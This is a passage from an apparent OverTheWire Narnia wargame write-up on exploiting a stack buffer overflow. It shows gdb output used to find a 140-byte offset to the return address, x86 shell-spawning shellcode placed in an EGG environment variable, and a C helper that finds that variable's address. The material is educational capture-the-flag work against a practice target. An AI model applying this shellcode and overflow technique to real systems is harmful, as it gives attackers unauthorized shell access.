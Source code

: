 We create a breakpoint right before the exit:

```
(gdb) b *main+97
Breakpoint 1 at 0x8048485
```

We run our program, feeding it with an argument of size 30 and we look to the memory (esp is the Stack pointer). The second value, **0xffffd610**, indicates the start of the frame:
```
(gdb) r `python -c 'print "B"*30'`
(gdb) x/30xw $esp
0xffffd600: 0x08048574 0xffffd610 0x00000001 0xf7ebf729
0xffffd610: 0x42424242 0x42424242 0x42424242 0x42424242
0xffffd620: 0x42424242 0x42424242 0x42424242 0xf7004242
0xffffd630: 0x08048258 0x00000000 0x00ca0000 0x00000001
0xffffd640: 0xffffd86d 0x0000002f 0xffffd69c 0xf7fcaff4
0xffffd650: 0x08048490 0x08049750 0x00000002 0x080482fd
0xffffd660: 0xf7fcb3e4 0x00008000 0x08049750 0x080484b1
0xffffd670: 0xffffffff 0xf7e59d46
```

Now, looking to the information about the frame, we get the return address at **0xffffd69c**:

```
(gdb) i f
Stack level 0, frame at 0xffffd6a0:
 eip = 0x8048485 in main; saved eip 0xf7e404b3
 Arglist at 0xffffd698, args:
 Locals at 0xffffd698, Previous frame's sp is 0xffffd6a0
 Saved registers:
 ebp at 0xffffd698, eip at 0xffffd69c
```

To find the size of the frame we subtract these values:

```
(gdb) p 0xffffd69c-0xffffd610
$1 = 140
```

So we know that 140 bytes are needed to reach the return address, where we will add our pointer.



### Step 3: Finding the EGG ShellCode Address

Where do we want to point the return address to? Well, we already know a way to spawn a shell: using an environment variable:

```sh
narnia2@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'
```

To find the address of **EGG** we use the following **C** code:
```c
narnia2@melinda:/tmp$ cat getbashadd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char *argv[]){
 char *ptr;
 ptr = getenv(argv[1]);
 ptr += (strlen(argv[0])-strlen(argv[2]))*2;
 printf("%s is at %p\n", argv[1],ptr);
 return 0;
}
```


[inputs with no bounds checking]: http://en.wikipedia.org/wiki/Bounds_checking
[buffer overflow]: http://en.wikipedia.org/wiki/Buffer_overflow
[process's virtual memory]: http://en.wikipedia.org/wiki/Virtual_memory
[physical memory]: http://en.wikipedia.org/wiki/Computer_memory
[virtual memory space]: http://en.wikipedia.org/wiki/Virtual_memory
[direction of which the Stack grows]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[segmentation violation]: http://en.wikipedia.org/wiki/Segmentation_fault
[Heap]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[here are some examples]: https://github.com/mvonsteinkirch/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[this cheat sheet]: http://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://singularity.miavonsteinkirch.com/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP